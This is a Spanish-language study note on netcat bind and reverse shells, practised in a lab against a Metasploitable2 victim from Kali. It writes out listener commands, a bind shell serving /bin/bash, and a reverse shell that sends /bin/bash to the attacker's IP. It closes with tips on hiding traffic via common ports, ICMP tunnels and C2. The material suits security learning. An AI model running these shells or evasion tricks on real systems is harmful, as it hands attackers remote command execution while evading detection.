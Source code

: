 ncat Practica de [[Explotación]]

netcat, llamado mediante el comando nc, es un conjunto de implementaciones, una de las mas modernas por ejemplo es ncat. Las implementaciones pueden establecer comunicaciones entre ellas sin problema.

En ejemplo de bind shell, usaremos msfadmin en metasploitable2 como victima y Kali como atacante.

En la maquina victima lanzamos nc:

``` bash
nc -nlvp 4444 -e /bin/bash
```

-l implica que nc esta en modo escucha 
-p indica el puerto de escucha, en este caso el 4444
-n es para que no haga traduccion de numeros a nombre
-v modo verbose
-e el binario a servir en conexion (salida del binario)

Desde la maquina atacante, iniciamos la bind shell:

``` bash
ncat -nv 192.168.56.102 4444
```


!!! - La terminal que obtenemos con netcat tiende a ser bastante limitada (ej: no tiene autocompletado, no tiene historico de comandos... Es decir, es una terminal **NO INTERACTIVA**), y siempre tendra los privilegios del usuarios que sirvio el escuchador.

Algo a tener en cuenta tambien esque con este tipo de shells inestables, CTRL + C cancelara la sesion en vez de cancelar el comando.

Tambien hay que tener en cuenta que a dia de hoy la mayoria de firewalls cortan las conexiones del exterior, por lo que las bind shells tienden a no funcionar. Por eso se usan las **reverse shell**:

Una reverse shell implica que el primer paquete de la conexion sale de la victima.

Ahora ponemos a la escucha a nuestra maquina atacante (esto tiene un pequeño riesgo, ya que podrian iniciar una bind shell contra nosotros):

``` bash
nc -nlvp 4444
```

Y en la maquina victima iniciamos la conexion, ofreciendo la terminal, esto se puede de hacer de millones de formas distintas (ver InternalAllTheThings (salido de PayloadsAllTheThings)):

``` bash
nc -v 192.168.56.100 4444 -e /bin/bash
```

Una evolucion en ejercicios Red Team seria establecer un sistema C2 para tener conexiones con ejecucion remota de comandos sin depender de una tuberia abierta de forma constante (facilmente detectable por IDS).

En cuanto a que puerto/puertos a utilizar. En caso de bind shell, una que permita que se inicie esa conexion, con la reverse shell ocurre exactamente lo mismo. Por ejemplo el puerto 443, 80, etc. que de normal son usados por servicios comunes. Tambien podriamos optar por crear tuneles con otros protocolos que no sean tcp o udp y utilizar por ejemplo ICMP. Hoy en dia hay canales incluso a traves de protocolos de correo o de sincronizacion de horas.

---


